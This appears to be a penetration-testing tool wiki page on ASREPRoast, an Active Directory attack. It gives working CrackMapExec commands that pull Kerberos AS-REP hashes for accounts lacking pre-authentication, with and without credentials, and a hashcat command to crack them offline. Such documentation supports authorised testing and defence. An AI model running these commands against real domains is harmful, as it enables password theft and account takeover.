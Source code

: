 ```yaml
---
description: >-
  Retrieve the Kerberos 5 AS-REP etype 23 hash of users without Kerberos
  pre-authentication required
---
```


# ASREPRoast



{% hint style="success" %}
You can retrieve the Kerberos 5 AS-REP etype 23 hash of users without Kerberos pre-authentication required if you have a list of users on the domain
{% endhint %}

### Without authentication

> The ASREPRoast attack looks for users without Kerberos pre-authentication required. That means that anyone can send an AS\_REQ request to the KDC on behalf of any of those users, and receive an AS\_REP message. This last kind of message contains a chunk of data encrypted with the original user key, derived from its password. Then, by using this message, the user password could be cracked offline. More detail in [Kerberos theory](https://www.tarlogic.com/en/blog/how-kerberos-works/).

```
cme ldap 192.168.0.104 -u harry -p '' --asreproast output.txt
```

Using a wordlist, you can find wordlists of username here

```
cme ldap 192.168.0.104 -u user.txt -p '' --asreproast output.txt
```

{% hint style="info" %}
Set the password value to '' to perform the test without authentication&#x20;
{% endhint %}

<figure><img src="../../../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

### With authentication

If you have one valid credential on the domain, you can retrieve all the users and hashs where the  Kerberos pre-authentication is not required

```
cme ldap 192.168.0.104 -u harry -p pass --asreproast output.txt
```

{% hint style="info" %}
Use option **kdcHost** when the domain name resolution fail&#x20;

```
cme ldap 192.168.0.104 -u harry -p pass --asreproast output.txt --kdcHost domain_name
```
{% endhint %}

<figure><img src="../../../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

### Cracking with hashcat&#x20;

To crack hashes on the file output.txt with hashcat use the following options:

```
hashcat -a 0 -m 18200 output.txt wordlist
```
